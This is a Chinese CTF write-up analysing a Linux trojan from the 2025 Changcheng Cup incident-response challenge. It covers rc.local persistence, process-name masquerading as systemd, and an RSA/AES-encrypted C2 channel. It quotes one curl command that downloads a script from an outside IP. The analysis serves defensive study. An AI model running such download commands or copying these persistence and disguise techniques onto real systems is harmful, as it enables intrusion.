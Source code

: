 # 2025长城杯决赛应急响应木马分析

2025长城杯决赛应急响应木马分析
&lt;!--more--&gt;
## 前言
赛时把整个系统几乎翻了个遍，其实是看到了关键点的，但是没有进一步去分析，很可惜，赛后听朋友说木马文件叫whoami，才想起来之前翻到过的`rc.local`里的`whoami`。趁着今天晚上有空就去分析了一下这个木马，感觉难度不是很大，这里分享一下我的分析过程

## 分析
在`/var/ftp/ftp.sh`中可以看到一条可疑的命令，但是翻了半天也没能找到这个文件，日志也没有什么有用的信息，不知道这个sh到底做了什么，那也就只能按部就班的排查了
```shell
curl -o 1.sh http://101.212.77.123:8080/1.sh
```

在`/etc/rc.local`和`/etc/rc.d/rc.local`中都可以看到如下代码
&gt; 在 Linux 中，/etc/rc.local 文件用于在系统启动的最后阶段执行用户自定义的命令。通常用于启动一些需要在系统完全启动后运行的自定义服务或脚本
```shell
#!/bin/bash
# THIS FILE IS ADDED FOR COMPATIBILITY PURPOSES
#
# It is highly advisable to create own systemd services or udev rules
# to run scripts during boot instead of using this file.
#
# In contrast to previous versions due to parallel execution during boot
# this script will NOT be run after all other services.
#
# Please note that you must run &#39;chmod &#43;x /etc/rc.d/rc.local&#39; to ensure
# that this script will be executed during boot.

touch /var/lock/subsys/local
whoami
```

这个whoami就是被替换掉的木马文件，接下来对他进行逆向分析

字符串的解密为rc4算法，key取6位，即`BIO_wr`
![](/images/2025长城杯决赛应急响应木马分析/image.png)

木马程序先是fork创建了一个子进程，执行了`/bin/nms`下的`nms`，这里没有对应的文件，就不分析他的行为了
![](/images/2025长城杯决赛应急响应木马分析/image-1.png)

父进程将标准输出和错误重定向到`/dev/null`以隐藏所有输出，然后创建一个锁文件`/tmp/systemd.lock`，再调用prctl将进程名改为`systemd`伪装成系统服务，最后等待子进程结束

![](/images/2025长城杯决赛应急响应木马分析/image-2.png)

再创建一个子进程

![](/images/2025长城杯决赛应急响应木马分析/image-3.png)

`sub_403F72`尝试获取文件的独占锁，确保只有一个实例运行
![](/images/2025长城杯决赛应急响应木马分析/image-4.png)

`sub_403F08`创建守护进程

![](/images/2025长城杯决赛应急响应木马分析/image-5.png)

接下来`sub_403867`就是主要分析的后门函数了

开头就是常规的socket连接，有一个随机延迟sleep应该是为了逃避检测，这里可以得到第一问的答案了: `flag{md5(101.212.78.52:36543)}`
![](/images/2025长城杯决赛应急响应木马分析/image-6.png)

由于是在内网，所以这里可以选择挂个frp穿出来，也可以将ida的linux server传进去来远程调试，以此来拿到服务器返回的数据

接着生成随机32个字节作为后面aes的key，解密了公钥去加密aes key，将加密后的key发送到服务器，然后接收并aes解密消息，判断是否为`connection`，是的话将`close`发送过去，最后判断返回消息是否为`getkey`
![](/images/2025长城杯决赛应急响应木马分析/image-7.png)

然后下发RSA的私钥，解密一段硬编码的数据，由于我这里是赛后复现的没有环境，所以没有私钥，无法解密，但是根据后面的分析猜测解密出来的应该是一个AES的key
![](/images/2025长城杯决赛应急响应木马分析/image-8.png)

解密出来的key会再被加密一次，跟前面加密公钥的是同一个算法，逆序和异或
![](/images/2025长城杯决赛应急响应木马分析/image-9.png)

然后把key传入`sub_4036A1`，接下来就是跟flag相关的算法了
![](/images/2025长城杯决赛应急响应木马分析/image-10.png)

算法随机生成一个flag
![](/images/2025长城杯决赛应急响应木马分析/image-11.png)

第一次加密

![](/images/2025长城杯决赛应急响应木马分析/image-12.png)

然后AES加密，key就是前面传入的参数

![](/images/2025长城杯决赛应急响应木马分析/image-13.png)

最终加密

![](/images/2025长城杯决赛应急响应木马分析/image-14.png)

最后把加密的数据base64后写到`/var/log/tuned/tun.log`中，`ZW4n7e&#43;/b7iNSxHNhAB&#43;QIWcAkocWT90WdU9qWDoeew=`
![](/images/2025长城杯决赛应急响应木马分析/image-15.png)

## 总结
木马的整个流程和flag加密算法的分析大致就是这样了，由于没有私钥没办法解密拿到AES的key，这里也就不做解密的分析了，都是些简单算法相信也难不倒各位师傅哈哈，如果有问题还请指正！

---

> Author: yuro  
> URL: /posts/3af7d12/  

